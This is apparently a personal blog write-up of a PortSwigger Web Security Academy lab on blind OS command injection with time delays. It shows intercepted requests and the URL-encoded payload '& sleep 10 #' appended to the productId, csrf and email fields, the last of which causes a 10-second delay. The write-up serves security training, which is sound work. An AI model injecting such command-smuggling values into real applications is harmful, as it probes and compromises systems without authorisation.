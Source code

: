 ```yaml
---
layout: post
title:  "PortSwigger - Command Injection - Lab 2"
date:   2024-07-07 18:20
image:  /images/portswigger/WebSecurityAcademy.png
tags:   [command-injection,bscp]
categories: [PortSwigger]
---
```


# Lab 2 - Blind OS command injection with time delays
><b>Lab Objective:</b>
<br/><br/>
This lab contains a blind OS command injection vulnerability in the feedback function.
The application executes a shell command containing the user-supplied details. The output from the command is not returned in the response.
To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay.
<br/>
<br/>
<b>Reference:</b>
<br/>
<a href="https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays">Port Swigger - Lab 2</a>
<br/>
<a href="https://academy.ranakhalil.com/courses/1491236/lectures/38308241">Rana Khalil - Command Injecton - Lab2</a>
<br/>



### Solution
<hr/>

#### 1. Intercept  all requests and identify requests accepting user inputs:

```
1. GET /product?productId=1

2. POST /feedback/submit
csrf=tNxq00UNidafvF829JS2Jr5QDZyoy0bQ&name=sdfasdf&email=test%40gmail.com&subject=asdasd&message=asdasd
```


#### 2. Test all inputs for command injection vulnerability:
Append `& sleep 10 #`

```
GET /product?productId=1%26+sleep+10+%23
```
Testing csrf parameter by appending our sleep payload:
```
POST /feedback/submit
csrf=tNxq00UNidafvF829JS2Jr5QDZyoy0bQ%26+sleep+10+%23&name=sdfasdf&email=test%gmail.com&subject=asdasd&message=asdasd
```
Testing email parameter by appending our sleep payload:
```
POST /feedback/submit
csrf=tNxq00UNidafvF829JS2Jr5QDZyoy0bQ&name=test&email=test%40gmail.com%26+sleep+10+%23&subject=test&message=test
```
Notice the response time was 10 seconds:
![Command Injection - Lab 1 - Response](/images/portswigger/CommandInjection/lab2/command_injection_lab_2_response.png)

<hr/>